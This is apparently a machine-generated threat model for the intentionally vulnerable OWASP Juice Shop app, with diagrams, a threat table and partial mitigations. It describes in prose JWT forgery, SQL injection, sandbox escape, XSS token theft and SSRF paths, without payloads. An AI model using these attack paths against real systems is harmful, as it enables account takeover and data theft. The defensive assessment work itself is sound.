# Threat Model - Juice Shop

_Generated by appsec-advisor v0.4.0-beta (analysis v2)_


---

> | | |
> |---|---|
> | **Project** | Juice Shop v19.2.1 |
> | **Description** | Probably the most modern and sophisticated insecure web application |
> | **Author** | Björn Kimminich <bjoern.kimminich@owasp\.org> (https://kimminich.de) |
> | **License** | MIT |
> | **Repository** | https://github.com/juice-shop/juice-shop |
> | **Homepage** | https://owasp-`juice.shop` |
> | **Runtime** | Node\.js 20 - 24, Express 4 |
> | **Tags** | web security, web application security, webappsec, owasp, pentest, pentesting, security, vulnerable, vulnerability, broken, bodgeit, ctf, capture the flag, awareness |

---

## Changelog

_Append-only history of assessment runs. Most recent first._

| Version | Date | Mode | Depth | Reasoning | Baseline → Current | Δ Threats | Code | Note |
|--------|----------|--------|--------|--------------|------------------|----------------|--------|--------|
| v1 | 2026-06-12 | full | standard | sonnet-economy | _(initial)_ | +60 / ~0 / -0 | - | - |

---

## Table of Contents

- [Management Summary](#management-summary)
- [Critical Attack Tree](#critical-attack-tree)
1. [System Overview](#1-system-overview)
   - [Scope](#scope)
2. [Architecture Diagrams](#2-architecture-diagrams)
   - [2.1 System Context](#21-system-context)
   - [2.2 Container Architecture](#22-container-architecture)
   - [2.3 Components](#23-components)
   - [2.4 Technology Architecture](#24-technology-architecture)
3. [Attack Walkthroughs](#3-attack-walkthroughs)
   - [3.1 Hardcoded RSA Private Key Enables JWT Forgery - lib/insecur…](#31-hardcoded-rsa-private-key-enables-jwt-forgery-libinsecur)
   - [3.2 Systemic Broken Authorization Attacker-Controlled Owner ID…](#32-systemic-broken-authorization-attacker-controlled-owner-id)
   - [3.3 OAuth Implicit Flow with Derived Password - oauth.component…](#33-oauth-implicit-flow-with-derived-password-oauthcomponent)
   - [3.4 JWT verify call missing algorithms allowlist - lib/insecuri…](#34-jwt-verify-call-missing-algorithms-allowlist-libinsecuri)
   - [3.5 JWT verify call missing algorithms allowlist - routes/chatb…](#35-jwt-verify-call-missing-algorithms-allowlist-routeschatb)
   - [3.6 JWT verify call missing algorithms allowlist - routes/verif…](#36-jwt-verify-call-missing-algorithms-allowlist-routesverif)
   - [3.7 SQL Injection Authentication Bypass - routes/login.ts:34](#37-sql-injection-authentication-bypass-routeslogints34)
   - [3.8 Hardcoded RSA Private Key - lib/insecurity.ts:23](#38-hardcoded-rsa-private-key-libinsecurityts23)
   - [3.9 JWT Algorithm Restriction Absent in express-jwt Configurati…](#39-jwt-algorithm-restriction-absent-in-express-jwt-configurati)
   - [3.10 Hardcoded RSA Private Key Enables Offline JWT Forgery - lib…](#310-hardcoded-rsa-private-key-enables-offline-jwt-forgery-lib)
   - [3.11 Stored Cross-Site Scripting - administration.component.ts:78](#311-stored-cross-site-scripting-administrationcomponentts78)
   - [3.12 Stored Cross-Site Scripting - search-result.component.ts:132](#312-stored-cross-site-scripting-search-resultcomponentts132)
   - [3.13 Reflected Cross-Site Scripting - search-result.component.ts…](#313-reflected-cross-site-scripting-search-resultcomponentts)
   - [3.14 SQL Injection UNION Data Extraction - routes/search.ts:23](#314-sql-injection-union-data-extraction-routessearchts23)
   - [3.15 XML External Entity Expansion - routes/fileUpload.ts:83](#315-xml-external-entity-expansion-routesfileuploadts83)
   - [3.16 Unfiltered SSRF - routes/profileImageUrlUpload.ts:24](#316-unfiltered-ssrf-routesprofileimageurluploadts24)
   - [3.17 JavaScript Sandbox Escape - routes/b2bOrder.ts:23](#317-javascript-sandbox-escape-routesb2borderts23)
   - [3.18 Server-Side Template Injection - routes/userProfile.ts:62](#318-server-side-template-injection-routesuserprofilets62)
4. [Assets](#4-assets)
5. [Attack Surface](#5-attack-surface)
   - [5.1 Unauthenticated Entry Points (56)](#51-unauthenticated-entry-points-56)
   - [5.2 Authenticated Entry Points (53)](#52-authenticated-entry-points-53)
7. [Security Architecture](#7-security-architecture)
   - [7.1 Security Control Overview](#71-security-control-overview)
   - [7.2 Identity and Authentication Controls](#72-identity-and-authentication-controls)
   - [7.3 Session and Token Controls](#73-session-and-token-controls)
   - [7.4 Authorization Controls](#74-authorization-controls)
   - [7.5 Query Construction and Data Access Controls](#75-query-construction-and-data-access-controls)
   - [7.6 Input Boundary Validation Controls](#76-input-boundary-validation-controls)
   - [7.7 Output Encoding and Rendering Controls](#77-output-encoding-and-rendering-controls)
   - [7.8 Browser and Cross-Origin Controls](#78-browser-and-cross-origin-controls)
   - [7.9 Cryptography Secrets and Data Protection](#79-cryptography-secrets-and-data-protection)
   - [7.10 File Parser and Outbound Request Controls](#710-file-parser-and-outbound-request-controls)
   - [7.11 Operations Runtime and Supply Chain Controls](#711-operations-runtime-and-supply-chain-controls)
   - [7.12 Real-time and Not Applicable Controls](#712-real-time-and-not-applicable-controls)
   - [7.13 Defense-in-Depth Summary](#713-defense-in-depth-summary)
8. [Findings Register](#8-findings-register)
9. [Abuse Cases](#9-abuse-cases)
10. [Mitigation Register](#10-mitigation-register)
11. [Out of Scope](#11-out-of-scope)
- [Appendix: Run Statistics](#appendix-run-statistics)
- [Appendix: Composition Notes](#appendix-composition-notes)
- [Appendix A - Vektor Taxonomy](#appendix-a-vektor-taxonomy)

> _Section numbering is non-contiguous: §6 was retired in a prior revision. The remaining sections keep their original numbers so existing cross-references stay valid._

---

## Management Summary

### Verdict

🔴 Juice Shop is not production-ready. The RSA signing key is committed to the public repository, two SQL injection paths allow unauthenticated database extraction, and two server-side code execution sinks - `eval()` in the profile handler and `vm.runInContext()` in the B2B order handler - give any authenticated user arbitrary code execution on the host. Anyone with a browser and the repo can take over the admin account, dump credentials, and pivot to the host.

**Risk distribution:** 🔴 Critical: 18 · 🟠 High: 29 · 🟡 Medium: 11 · 🟢 Low: 2 · **Total: 60**


**Scope:** 4 of 5 components received full STRIDE analysis - the externally-reachable, authentication-bearing, and business-critical surface. The other 1 (lower-priority / internal) were not individually assessed at this depth (see [§1 Scope](#scope)).

<br/>

**The dominant attack paths that determine production readiness:**

<blockquote style="border-left: 3px solid #dc2626; background: #fef2f2; padding: 16px 20px; margin: 0;">

- **Full admin account takeover without credentials** — The RSA private key is hardcoded in `lib/insecurity.ts:23` and committed to the public repository. Any caller can forge a JWT with `role=admin` offline. Three separate `jwt.verify()` calls lack an algorithms allowlist, accepting `alg:none` tokens on login, chatbot, and verify routes. *(🔴 [F-001](#f-001) — Hardcoded RSA Private Key Enables JWT Forgery — lib/insecurity.ts:54, 🔴 [F-007](#f-007) — JWT verify call missing algorithms allowlist — lib/insecurity.ts:191, 🔴 [F-011](#f-011) — Hardcoded RSA Private Key — lib/insecurity.ts:23, 🔴 [F-013](#f-013) — Hardcoded RSA Private Key Enables Offline JWT Forgery — lib/insecurity.ts:23)*
- **Full user database extraction via SQL injection** — `req.body.email` at `routes/login.ts:34` and the search parameter at `routes/search.ts:23` are interpolated into raw SQL. UNION-based extraction returns the full user table including MD5-hashed passwords, which crack offline in seconds. *(🔴 [F-010](#f-010) — SQL Injection Authentication Bypass — routes/login.ts:34, 🔴 [F-017](#f-017) — SQL Injection UNION Data Extraction — routes/search.ts:23)*
- **Arbitrary server-side code execution via two independent sinks** — `routes/userProfile.ts:62` passes the username field into a Pug template `eval()` call. `routes/b2bOrder.ts:23` passes B2B order input through `notevil/vm.runInContext()`, a sandbox that does not confine Node\.js built-ins. Both paths reach host-level execution. *(🔴 [F-020](#f-020) — JavaScript Sandbox Escape — routes/b2bOrder.ts:23, 🔴 [F-021](#f-021) — Server-Side Template Injection — routes/userProfile.ts:62)*
- **Stored XSS enables mass session hijack** — `bypassSecurityTrustHtml()` in `search-result.component.ts:132` and `administration.component.ts:78` disables Angular's default escaping. Injected script persists in the product database and executes in every subsequent visitor's browser, stealing the JWT from `localStorage`. *(🔴 [F-014](#f-014) — Stored Cross-Site Scripting — administration.component.ts:78, 🔴 [F-015](#f-015) — Stored Cross-Site Scripting — search-result.component.ts:132, 🔴 [F-016](#f-016) — Reflected Cross-Site Scripting — search-result.component.ts:170)*

</blockquote>

<br/>

The core fixes are not patches - they require moving the signing key out of source, switching raw SQL to parameterized queries, and removing both server-side eval sinks. Until those are resolved, any deployment exposes customer credentials and host access.

### Security Posture & Top Threats

**Figure 1 - Architecture, Trust Boundaries & Threats**

Components grouped by architecture tier. **Grey** edges are the legitimate request backbone; **solid red** are attacks (each from a threat actor); **dotted red** are the consequence path onto the data tier or victim. Glyphs match Figure 2 and the Top Threats table.


```mermaid
%%{init: {"flowchart": {"defaultRenderer": "elk", "nodeSpacing": 34, "rankSpacing": 52, "padding": 10, "subGraphTitleMargin": {"top": 6, "bottom": 6}}} }%%
flowchart TB
    subgraph ZONE_ACTORS["External Actors"]
        direction LR
        EXT_SHOPUSER["fa:fa-user Shop User<br/><i>legitimate customer - XSS/CSRF target</i>"]:::actorgood
        ACT_INTERNET_ANON["fa:fa-user-secret Anonymous Internet Attacker<br/><i>incl. self-registered users - open registration makes authenticated ≈ anonymous</i>"]:::actorbad
    end

    subgraph CLIENT["Client Tier - browser"]
        CMP_ANGULAR_SPA["C-01 · Angular SPA<br/><i>🔴 4 🟠 5</i>"]:::comp
    end
    subgraph APP["Application Tier - Node / Express"]
        CMP_EXPRESS_BACKEND["C-02 · Express Backend<br/><i>🔴 11 🟠 14</i>"]:::comp
        CMP_FILE_UPLOAD_SERVICE["C-03 · File Upload Service<br/><i>🔴 2 🟠 4</i>"]:::comp
        CMP_B2B_API["C-04 · B2B REST API<br/><i>🔴 1 🟠 2</i>"]:::comp
    end
    subgraph DATA["Data Tier"]
        CMP_DATA_LAYER["C-05 · Data Layer<br/><i>🟠 4</i>"]:::comp
    end

    %% legitimate request flow
    EXT_SHOPUSER -->|"uses"| CMP_ANGULAR_SPA
    CMP_ANGULAR_SPA -->|"API calls"| CMP_EXPRESS_BACKEND
    CMP_EXPRESS_BACKEND -->|"reads/writes"| CMP_DATA_LAYER
    %% attacks (solid) - each originates at a threat actor; glyphs match Figure 2 / Top Threats
    ACT_INTERNET_ANON ==>|"① Injection ② Auth Bypass ③ Priv-Esc ④ Secret Exposure ⑤ RCE"| CMP_EXPRESS_BACKEND
    ACT_INTERNET_ANON ==>|"① ③ ④"| CMP_FILE_UPLOAD_SERVICE
    ACT_INTERNET_ANON ==>|"④ ⑤"| CMP_B2B_API
    ACT_INTERNET_ANON ==>|"⑥ XSS ⑦ CSRF"| CMP_ANGULAR_SPA
    %% propagation (dotted) - how the attack reaches the data tier / victim
    CMP_EXPRESS_BACKEND -.->|"④"| CMP_DATA_LAYER
    CMP_ANGULAR_SPA -.->|"⑥ ⑦"| EXT_SHOPUSER
    %% invisible barycenter-balancing edges - center the client/data tiers under the app row (no glyph, no linkStyle → rendered as no line)
    CMP_FILE_UPLOAD_SERVICE ~~~ CMP_DATA_LAYER
    CMP_B2B_API ~~~ CMP_DATA_LAYER
    CMP_ANGULAR_SPA ~~~ CMP_FILE_UPLOAD_SERVICE
    CMP_ANGULAR_SPA ~~~ CMP_B2B_API

    style CLIENT fill:none,stroke:#475569,stroke-width:1.5px,stroke-dasharray:5
    style APP fill:none,stroke:#b71c1c,stroke-width:2px,stroke-dasharray:5
    style DATA fill:none,stroke:#475569,stroke-width:1.5px,stroke-dasharray:5
    style ZONE_ACTORS fill:none,stroke:#94a3b8,stroke-width:1.5px,stroke-dasharray:5
    classDef comp fill:#eef2f7,stroke:#334155,color:#0f172a,stroke-width:1.5px
    classDef compmuted fill:#f8fafc,stroke:#cbd5e1,color:#64748b,stroke-width:1px,font-size:9px
    classDef ext  fill:#ffffff,stroke:#94a3b8,color:#334155,stroke-width:1.5px
    classDef actorbad  fill:#fde8e8,stroke:#b71c1c,color:#7f0000,stroke-width:2px
    classDef actorgood fill:#e8f1ea,stroke:#2e7d32,color:#1b5e20,stroke-width:1.5px
    linkStyle 0,1,2 stroke:#6b7280,stroke-width:1.5px
    linkStyle 3,4,5,6 stroke:#b71c1c,stroke-width:2.5px
    linkStyle 7,8 stroke:#b71c1c,stroke-width:1.5px,stroke-dasharray:5
```

_Threats: ① Injection · ② Auth Bypass · ③ Priv-Esc · ④ Secret Exposure · ⑤ RCE · ⑥ XSS · ⑦ CSRF_

_Component badge: 🔴 = number of Critical findings on the component · 🟠 = number of High findings. Components with no Critical/High finding carry no badge._

**Figure 2 - Risk Flow: Actor → Tier → Impact**

Heatmap: **actors** (left) → **architecture tiers** (middle, Client → Application → Data) → **impact** (right). Numbered red arrows ①–⑦ are the threats enumerated in the Top Threats table below. Self-registration is open, so the **Authenticated Internet Attacker** tier is one POST away from anonymous - it is shown distinctly because a post-login endpoint is still a different attack surface.


```mermaid
%%{init: {"flowchart": {"defaultRenderer": "elk", "nodeSpacing": 45, "rankSpacing": 95}} }%%
flowchart LR
    subgraph ACTORS[" "]
        direction TB
        HDR_A["<b>Threat Actors</b>"]:::columnHeader
        ANON(["fa:fa-user-secret Anonymous Internet Attacker"]):::actorAnon
    end

    subgraph TIERS[" "]
        direction TB
        HDR_T["<b>Architecture Tiers</b>"]:::columnHeader
        BROWSER["Client Tier<br/>C-01 Angular SPA"]:::tierClient
        SERVER["Application Tier<br/>C-02 Express Backend · C-03 File Upload Service · C-04 B2B REST API"]:::tierApp
        DATA["Data Tier<br/>C-05 Data Layer"]:::tierData
    end

    subgraph IMPACT[" "]
        direction TB
        HDR_I["<b>Business Impact</b>"]:::columnHeader
        CUSTOMER_SESSION_HIJACK[["🟠 Customer Session Hijack"]]:::impact
        FULL_ADMIN_TAKEOVER[["🔴 Full Admin Takeover"]]:::impact
        FULL_SERVER_COMPROMISE[["🔴 Full Server Compromise"]]:::impact
        CUSTOMER_DATA_EXFILTRATION[["🔴 Customer Data Exfiltration"]]:::impact
    end

    %% Invisible alignment hints. Two purposes:
    %%   (a) keep per-component alignment edges (e.g. ANON --- SERVER) so the
    %%       forward attack arrows route horizontally without crossing tier
    %%       boxes (the diagram is forward-only: actor → tier → impact, no
    %%       backward relay edges into the actor column);
    %%   (b) chain the three column headers (HDR_A, HDR_T, HDR_I) across
    %%       subgraph boundaries so ELK pins them on the same Y line.
    HDR_A --- HDR_T
    HDR_T --- HDR_I
    ANON --- SERVER

    %% Attack arrows
    ANON ==>|" ① ② ③ ④ ⑤  "| SERVER
    ANON ==>|" ⑥ ⑦  "| BROWSER

    %% Consequence arrows (tier → business impact, all LR-forward)
    SERVER -.-> CUSTOMER_DATA_EXFILTRATION
    SERVER -.-> FULL_ADMIN_TAKEOVER
    SERVER -.-> FULL_SERVER_COMPROMISE
    BROWSER -.-> CUSTOMER_SESSION_HIJACK

    %% Subgraph frames invisible - column headers are emitted as the
    %% FIRST node of each subgraph (HDR_A / HDR_T / HDR_I) and pinned
    %% on the same Y line by the cross-subgraph alignment edges above.
    style ACTORS fill:none,stroke:none
    style TIERS  fill:none,stroke:none
    style IMPACT fill:none,stroke:none

    classDef tierClient fill:#f2f2f2,stroke:#424242,color:#111,stroke-width:2px,font-size:12px
    classDef tierApp    fill:#f2f2f2,stroke:#424242,color:#111,stroke-width:2px,font-size:12px
    classDef tierData   fill:#f2f2f2,stroke:#424242,color:#111,stroke-width:2px,font-size:12px

    classDef actorAnon     fill:#f3dada,stroke:#b71c1c,color:#7f0000,stroke-width:2px,font-size:12px
    classDef actorShopUser fill:#e8f1ea,stroke:#2e7d32,color:#1b5e20,stroke-width:2px,font-size:12px
    classDef impact        fill:#0f172a,stroke:#000,color:#fff,stroke-width:3px,font-size:12px

    classDef columnHeader  fill:none,stroke:none,color:#111,font-size:14px

    linkStyle 0,1,2     stroke:transparent,stroke-width:0px
    linkStyle 3,4     stroke:#b71c1c,stroke-width:3px
    linkStyle 5,6,7,8     stroke:#6b7280,stroke-width:1.5px,stroke-dasharray:4

```

**Threat actors.** The actors below drive the numbered attack paths in the figures above; the Shop User is the *victim* of client-side attacks (XSS / CSRF), not an attacker.

- **Shop User** — legitimate customer; target of client-side attacks; target of ⑥ Output Encoding / Cross-Site Scripting, ⑦ CSRF / Permissive CORS.
- **Anonymous Internet Attacker** — no account; registers in seconds when needed; drives ① Insecure Query Construction & Data Access, ② Hardcoded Secrets & Weak Cryptography, ③ Broken Authorization & Access Control, ④ Sensitive File & Secret Exposure, ⑤ Remote Code Execution (unsafe eval).

**7 structural threats**, grouped by weakness class - each row is one threat, not one finding. *Threat Description* states the general architectural weakness (STRIDE in brackets); *Findings* lists the concrete instances, each linked to [§8 Findings Register](#8-findings-register) with its component; *Risk & Impact* combines severity with business consequence.

| # | Threat Description | Findings (→ Component) | Risk & Impact | Fix |
|---|------------------------------------|------------------------------------------------|------------------------------------|--------|
| <a id="path-injection"></a>① | **Insecure Query Construction & Data Access** _(T·I)_<br/>user input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation. | <span style="white-space:nowrap">🔴&nbsp;[F-010](#f-010)</span> - SQL Injection Authentication Bypass (`routes/login.ts:34`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-017](#f-017)</span> - SQL Injection UNION Data Extraction (`routes/search.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-018](#f-018)</span> - XML External Entity Expansion (`routes/fileUpload.ts:83`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-026](#f-026)</span> - NoSQL / ORM Injection (`routes/recycles.ts:14`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span> | 🔴 **Critical**<br/>Customer Data Exfiltration | <span style="white-space:nowrap">❶ [M-054](#m-054)</span> — Use parameterized database queries<br/><span style="white-space:nowrap">❶ [M-061](#m-061)</span> — Use parameterized database queries |
| <a id="path-auth-bypass"></a>② | **Hardcoded Secrets & Weak Cryptography** _(S·E)_<br/>authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed. | <span style="white-space:nowrap">🔴&nbsp;[F-006](#f-006)</span> - OAuth Implicit Flow with Derived Password (`oauth.component.ts:30`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-007](#f-007)</span> - JWT verify call missing algorithms allowlist (`lib/insecurity.ts:191`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-008](#f-008)</span> - JWT verify call missing algorithms allowlist (`routes/chatbot.ts:248`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-009](#f-009)</span> - JWT verify call missing algorithms allowlist (`routes/verify.ts:117`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-011](#f-011)</span> - Hardcoded RSA Private Key (`lib/insecurity.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-012](#f-012)</span> - JWT Algorithm Restriction Absent in express-jwt Configuration (`lib/insecurity.ts:54`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-013](#f-013)</span> - Hardcoded RSA Private Key Enables Offline JWT Forgery (`lib/insecurity.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-036](#f-036)</span> - Weak Password Hashing `MD5` Without Salt (`lib/insecurity.ts:43`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-052](#f-052)</span> - Container images not signed no cosign or build-provenance attestation - :1 <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span> | 🔴 **Critical**<br/>Full Admin Takeover · Customer Data Exfiltration | <span style="white-space:nowrap">❶ [M-052](#m-052)</span> — Harden the authentication flow<br/><span style="white-space:nowrap">❶ [M-053](#m-053)</span> — Enforce JWT signature and algorithm verification |
| <a id="path-privilege-escalation"></a>③ | **Broken Authorization & Access Control** _(E·I)_<br/>authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes. | <span style="white-space:nowrap">🔴&nbsp;[F-002](#f-002)</span> - Systemic Broken Authorization Attacker-Controlled Owner ID Across Resource Endp (`routes/address.ts:11`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-004](#f-004)</span> - Systemic Missing permissions Block Across GitHub Actions Workflows (`ci.yml:1`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-005](#f-005)</span> - Unauthenticated Sensitive REST Routes (`server.ts:310`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-042](#f-042)</span> - IDOR Missing Ownership Check on Recycles Endpoint (`routes/recycles.ts:14`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-044](#f-044)</span> - Unauthenticated Product Update (`server.ts:369`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-046](#f-046)</span> - Attacker-Controlled UserId in Memory Upload (`routes/memory.ts:24`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span> | 🔴 **Critical**<br/>Full Admin Takeover · Customer Data Exfiltration | <span style="white-space:nowrap">❶ [M-048](#m-048)</span> — Enforce object-level (ownership) authorization<br/><span style="white-space:nowrap">❷ [M-050](#m-050)</span> — Apply least-privilege permissions |
| <a id="path-sensitive-data-exposure"></a>④ | **Sensitive File & Secret Exposure** _(I)_<br/>confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content. | <span style="white-space:nowrap">🔴&nbsp;[F-019](#f-019)</span> - Unfiltered SSRF (`routes/profileImageUrlUpload.ts:24`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-034](#f-034)</span> - Unencrypted SQLite Database at Rest (`models/index.ts:38`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-035](#f-035)</span> - Sensitive Files Publicly Served (`ftp/acquisitions.md:1`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-037](#f-037)</span> - XML Parse Error Leaks Up to 400 Chars of Parsed Document in HTTP Response (`routes/fileUpload.ts:87`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-038](#f-038)</span> - Unauthenticated Directory Listing of `/support/logs` and `/encryptionkeys` (`server.ts:281`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-043](#f-043)</span> - Zip Slip Path Traversal in Complaint File Upload Handler (`routes/fileUpload.ts:44`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-048](#f-048)</span> - Open Redirect (`lib/insecurity.ts:138`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-051](#f-051)</span> - Raw Error Propagation Leaks Stack Trace on Eval Failure (`routes/b2bOrder.ts:33`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-060](#f-060)</span> - Data disclosure (`challenges.yml:1381`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span> | 🔴 **Critical**<br/>Customer Data Exfiltration | <span style="white-space:nowrap">❶ [M-063](#m-063)</span> — Validate and allowlist outbound request targets<br/><span style="white-space:nowrap">❷ [M-078](#m-078)</span> — Stop storing sensitive data in cleartext |
| <a id="path-remote-code-execution"></a>⑤ | **Remote Code Execution (unsafe eval)** _(E)_<br/>user-supplied data reaches a server-side code-execution sink (`eval`, sandbox primitives, deserialization, prototype-pollution gadgets) and breaks out into arbitrary native execution. | <span style="white-space:nowrap">🔴&nbsp;[F-020](#f-020)</span> - JavaScript Sandbox Escape (`routes/b2bOrder.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-021](#f-021)</span> - Server-Side Template Injection (`routes/userProfile.ts:62`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span> | 🔴 **Critical**<br/>Full Server Compromise · Customer Data Exfiltration · Full Admin Takeover | <span style="white-space:nowrap">❶ [M-064](#m-064)</span> — Remove server-side evaluation of untrusted input<br/><span style="white-space:nowrap">❶ [M-065](#m-065)</span> — Remove server-side evaluation of untrusted input |
| <a id="path-cross-site-scripting"></a>⑥ | **Output Encoding / Cross-Site Scripting** _(T·I)_<br/>attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover. | <span style="white-space:nowrap">🟠&nbsp;[F-003](#f-003)</span> - JWT Session Token Stored in localStorage (`request.interceptor.ts:13`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-014](#f-014)</span> - Stored Cross-Site Scripting (`administration.component.ts:78`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-015](#f-015)</span> - Stored Cross-Site Scripting (`search-result.component.ts:132`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-016](#f-016)</span> - Reflected Cross-Site Scripting (`search-result.component.ts:170`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-023](#f-023)</span> - Stored Cross-Site Scripting (`last-login-ip.component.ts:39`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-024](#f-024)</span> - Stored Cross-Site Scripting (`track-result.component.ts:48`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span> | 🔴 **Critical**<br/>Customer Session Hijack | <span style="white-space:nowrap">❶ [M-058](#m-058)</span> — Encode output instead of bypassing the framework sanitizer<br/><span style="white-space:nowrap">❶ [M-059](#m-059)</span> — Encode output instead of bypassing the framework sanitizer |
| <a id="path-cross-site-request-forgery"></a>⑦ | **CSRF / Permissive CORS** _(S·T)_<br/>a permissive CORS policy plus missing anti-CSRF tokens let any external page issue authenticated state-changing requests in the victim's session. | <span style="white-space:nowrap">🟠&nbsp;[F-022](#f-022)</span> - Missing OAuth State Parameter Enables CSRF on Authorization Callback (`login.component.ts:134`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span> | 🟠 **High**<br/>Customer Session Hijack | <span style="white-space:nowrap">❷ [M-066](#m-066)</span> — Add anti-CSRF protection to state-changing requests |

_STRIDE: S spoofing · T tampering · R repudiation · I information disclosure · D denial of service · E elevation of privilege. Risk, findings, components, impact and Fix are derived deterministically; only the one-line weakness description is authored._

**Verified attack chains.** 4 fully viable ([AC-T-003](#ac-t-003), [AC-T-004](#ac-t-004), [AC-T-005](#ac-t-005), [AC-T-006](#ac-t-006)); 1 partially blocked ([AC-T-001](#ac-t-001)). These chains combine individual findings into end-to-end exploitation paths verified step-by-step against the code - see [§9 Abuse Cases](#9-abuse-cases) for the per-step breakdown and blocking mitigations.

### Top Mitigations

Highest-impact P1/P2 mitigations - 16 of 46 qualifying (59 total). Full detail in [§10 Mitigation Register](#10-mitigation-register). All 16 mitigation(s) that fix a Critical finding are always listed here.

| # | Component | Mitigation | Addresses | Effort |
|---|----------------------|------------------------------------------------|------------------------------------------------|------|
| **1** | [C-01](#c-01) — Angular SPA | ❶ [M-058](#m-058) — Encode output instead of bypassing the framework sanitizer | 🔴 [F-014](#f-014) — Stored Cross-Site Scripting (`administration.component.ts`) | Low |
| **2** | [C-01](#c-01) — Angular SPA | ❶ [M-060](#m-060) — Encode output instead of bypassing the framework sanitizer | 🔴 [F-016](#f-016) — Reflected Cross-Site Scripting (`search-result.component.ts`) | Low |
| **3** | [C-01](#c-01) — Angular SPA | ❶ [M-059](#m-059) — Encode output instead of bypassing the framework sanitizer | 🔴 [F-015](#f-015) — Stored Cross-Site Scripting (`search-result.component.ts`) | Medium |
| **4** | [C-01](#c-01) — Angular SPA | ❶ [M-052](#m-052) — Harden the authentication flow | 🔴 [F-006](#f-006) — OAuth Implicit Flow with Derived Password (`oauth.component.ts`) | High |
| **5** | [C-02](#c-02) — Express Backend | ❶ [M-053](#m-053) — Enforce JWT signature and algorithm verification | 🔴 [F-007](#f-007) — JWT verify call missing algorithms allowlist (`lib/insecurity.ts`)<br/>🔴 [F-008](#f-008) — JWT verify call missing algorithms allowlist (`routes/chatbot.ts`)<br/>🔴 [F-009](#f-009) — JWT verify call missing algorithms allowlist (`routes/verify.ts`) | Medium |
| **6** | [C-02](#c-02) — Express Backend | ❶ [M-054](#m-054) — Use parameterized database queries | 🔴 [F-010](#f-010) — SQL Injection Authentication Bypass (`routes/login.ts`) | Low |
| **7** | [C-02](#c-02) — Express Backend | ❶ [M-056](#m-056) — Enforce JWT signature and algorithm verification | 🔴 [F-012](#f-012) — JWT Algorithm Restriction Absent in express-jwt Configuration (`lib/insecurity.ts`) | Low |
